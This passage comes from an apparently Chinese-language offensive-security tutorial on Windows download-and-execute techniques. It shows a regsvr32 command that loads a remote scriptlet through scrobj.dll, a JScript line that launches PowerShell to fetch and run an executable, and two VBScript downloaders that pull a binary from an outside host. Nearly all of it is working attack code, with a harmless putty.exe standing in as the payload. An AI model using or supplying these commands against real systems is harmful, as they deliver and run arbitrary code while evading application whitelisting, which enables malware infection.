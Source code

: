 **注：**

使用bitsadmin的下载速度较慢

### 4、regsvr32

`regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/test/master/downloadexec.sct scrobj.dll`

**原理：**

regsve32->JScript->powershell->download&exec

JScript调用powershell实现下载执行的代码为：

`new ActiveXObject("WScript.Shell").Run("powershell (new-object System.Net.WebClient).DownloadFile('https://github.com/3gstudent/test/raw/master/putty.exe','c:\\download\\a.exe');start-process 'c:\\download\\a.exe'",0,true);`

参照sct文件格式：

https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct

添加功能，生成downloadexec.sct

**实现功能：**

`regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/test/master/downloadexec.sct scrobj.dll`

当然，为了减少调用的程序，也可以使用以下思路：

regsve32->VBScript->download&exec

通常，vbs脚本实现的下载执行代码：

```
Const adTypeBinary = 1
Const adSaveCreateOverWrite = 2
Dim http,ado
Set http = CreateObject("Msxml2.XMLHTTP")
http.open "GET","http://192.168.81.192/putty.exe",False
http.send
Set ado = createobject("Adodb.Stream")
ado.Type = adTypeBinary
ado.Open
ado.Write http.responseBody
ado.SaveToFile "c:\download\a.exe"
ado.Close
```

但该脚本不支持https下载，可以换用`Msxml2.ServerXMLHTTP.6.0`

代码如下：

```
Const adTypeBinary = 1
Const adSaveCreateOverWrite = 2
Dim http,ado
Set http = CreateObject("Msxml2.ServerXMLHTTP.6.0")
http.SetOption 2, 13056
http.open "GET","https://github.com/3gstudent/test/raw/master/putty.exe",False
http.send
Set ado = createobject("Adodb.Stream")
ado.Type = adTypeBinary
ado.Open
ado.Write http.responseBody
ado.SaveToFile "c:\download\a.exe"
ado.Close
```
